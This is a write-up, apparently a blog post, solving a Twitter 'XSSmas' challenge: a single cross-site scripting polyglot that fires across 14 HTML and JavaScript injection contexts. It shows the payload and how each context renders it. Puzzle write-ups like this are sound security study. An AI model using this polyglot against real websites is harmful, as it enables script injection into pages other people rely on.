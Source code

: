 ```yaml
---
layout: single
title: 21 Vector to Rule Them All XSSmas Challenge
date: 2021-12-06
classes: wide
tags:
  - Twitter
  - XSS
  - XSSmas
  - Challenge
  - Frederik Braun
---
```


Can you create the shortest XSS vector that triggers in all contexts?

![twitter challenge](/assets/images/twitter/freddyb/twitter-challenge.png)

## Overview

To start off, here is the challenge page with the official rules.

![challenge page](/assets/images/twitter/freddyb/challenge-page.png)

Let's count how many contexts are there on the page

![number-of-contexts](/assets//images/twitter/freddyb/number-of-contexts.png)

## TL;DR Solution

```
"%0Ax=//`//</style></title></math></select></template></textarea><svg+x=*/%0Aonload=alert()//></svg>
```

## Detailed Solution

### Context #3: Double quotes string

- Code snippet

```html
<script>
    injection = "payload";
</script>
```

- Polyglot result

```html
<script>
    injection = ""
x=//`//&lt;/style&gt;&lt;/title&gt;&lt;/math&gt;&lt;/select&gt;&lt;/template&gt;&lt;/textarea&gt;&lt;svg x=*/
onload=alert()//&gt;&lt;/svg&gt;";
</script>
```

### Context #2: Template string

- Code snippet

```html
<script>
    injection = `payload`;
</script>
```

- Polyglot result

```html
<script>
    injection = `"
x=//`//&lt;/style&gt;&lt;/title&gt;&lt;/math&gt;&lt;/select&gt;&lt;/template&gt;&lt;/textarea&gt;&lt;svg x=*/
onload=alert()//&gt;&lt;/svg&gt;`;
</script>
```

### Context #3: Single-line comment

- Code snippet

```html
<script>
    // payload
</script>
```

- Polyglot result

```html
<script>
    // "
x=//`//&lt;/style&gt;&lt;/title&gt;&lt;/math&gt;&lt;/select&gt;&lt;/template&gt;&lt;/textarea&gt;&lt;svg x=*/
onload=alert()//&gt;&lt;/svg&gt;
</script>
```

### Context #4: Multi-line comment 

- Code snippet

```html
<script>
    /* payload */
</script>
```

- Polyglot result

```html
<script>
    /* "
x=//`//&lt;/style&gt;&lt;/title&gt;&lt;/math&gt;&lt;/select&gt;&lt;/template&gt;&lt;/textarea&gt;&lt;svg x=*/
onload=alert()//&gt;&lt;/svg&gt; */
</script>
```

### Context #5: HTML Stylesheet

- Code snippet

```html
<style>
payload</style>
```

- Polyglot result

```html
<style>
"
x=//`//</style></title></math></select></template></textarea><svg x=*/
onload=alert()//></svg></style>
```

### Context #6: HTML Title

- Code snippet

```html
<title>2021's vector to rule them all - payload</title></head>
```

- Polyglot result

```html
<title>2021's vector to rule them all - "
x=//`//</style></title></math></select></template></textarea><svg x=*/
onload=alert()//></svg></title></head>
```

### Context #7: HTML Main Element

- Code snippet

```html
<main>    payload
    <select>
```

- Polyglot result

```html
<main>    "
x=//`//</style></title></math></select></template></textarea><svg x=*/
onload=alert()//></svg>
    <select>
```

### Context #8: HTML Select Element

- Code snippet

```html
<select><option>payload</option></select>
```

- Polyglot result

```html
<select><option>"
x=//`//</style></title></math></select></template></textarea><svg x=*/
onload=alert()//></svg></option></select>
```

### Context #9: HTML Textarea

- Code snippet

```html
<textarea>payload</textarea>
```

- Polyglot result

```html
<textarea>"
x=//`//</style></title></math></select></template></textarea><svg x=*/
onload=alert()//></svg></textarea>
```

### Context #10: HTML Image

- Code snippet

```html
<img src="payload" alt="" />
```

- Polyglot result

```html
<img src=""
x=//`//</style></title></math></select></template></textarea><svg x=*/
onload=alert()//></svg>" alt="" />
```

### Context #11: HTML Template

- Code snippet

```html
<template>payload</template>
```

- Polyglot result

```html
<template>"
x=//`//</style></title></math></select></template></textarea><svg x=*/
onload=alert()//></svg></template>
```

### Context #12: HTML SVG

- Code snippet

```html
<svg>payload</svg>
```

- Polyglot result

```html
<svg>"
x=//`//</style></title></math></select></template></textarea><svg x=*/
onload=alert()//></svg></svg>
```

### Context #13: HTML Math Element

- Code snippet

```html
<math>payload</math>
```

- Result of stand-alone payload `</math><svg+onload=alert()>`

```html
<math></math><svg onload=alert()></math>
```

- Polyglot result

```html
<math>"
x=//`//</style></title></math></select></template></textarea><svg x=*/
onload=alert()//></svg></math>
```

### Context #14: HTML iFrame

- Code snippet

```html
<iframe data-injection="payload" src="data:text/html,<h1>Ignore me"></iframe>
```

- Polyglot result

```html
<iframe data-injection=""
x=//`//&lt;/style&gt;&lt;/title&gt;&lt;/math&gt;&lt;/select&gt;&lt;/template&gt;&lt;/textarea&gt;&lt;svg x=*/
onload=alert()//&gt;&lt;/svg&gt;" src="data:text/html,<h1>Ignore me"></iframe>
</main>
```